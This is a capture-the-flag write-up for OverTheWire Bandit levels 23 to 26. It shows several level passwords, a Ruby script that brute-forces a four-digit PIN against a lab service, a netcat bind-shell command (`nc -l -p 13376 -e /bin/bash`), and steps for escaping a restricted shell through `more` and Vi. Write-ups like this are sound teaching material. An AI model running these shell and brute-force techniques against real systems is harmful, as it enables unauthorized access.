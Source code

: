 # OverTheWire - Bandit

Writeup by Brendan Weibrecht

## 23 -> 24



UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

## 24 -> 25

/tmp/ZimbiX_24-25.rb:

```ruby
    #!/usr/bin/env ruby

    require 'socket'

    s = TCPSocket.new 'localhost', 30002

    (0..9999).each do |i|
      x = i.to_s.rjust 4, '0'
      msg = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ #{x}"
      puts msg
      s.puts msg
      puts s.gets
    end
```

    The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

## 25 -> 26

Using the SSH key to log in to bandit26 kicks us out after showing some banner text.

`cat /etc/passwd` from bandit25 shows the shell is `/usr/bin/showtext`.

    bandit25@melinda:~$ cat /usr/bin/showtext
    #!/bin/sh

    more ~/text.txt
    exit 0

So it uses `more`.

Making the terminal 4 chars tall pauses in `more`.
Help shows you can execute a command in a subshell. This doesn't seem to wait or output.

`!nc -l -p 13376 -e /bin/bash`

Using the option to enter Vi, Vi shows you can do commands from there too. It looks like these don't work as they use the shell defined in $SHELL, which is the `showtext` binary.

Trying to set Vi's shell: `:set shell=/bin/bash` then running `:!/bin/bash`... works!

So steps are:

- Set up SSH key (save as `bandit26_rsa`, `chmod 600`)
- Make terminal 6 characters tall
- SSH (as bandit26 with key: `ssh -i bandit26_rsa bandit26@bandit.labs.overthewire.org`)
- Expand the terminal again (once it says "More" at the bottom)
- Press V to enter Vi
- Run `:set shell=/bin/bash`
- Run `:!/bin/bash`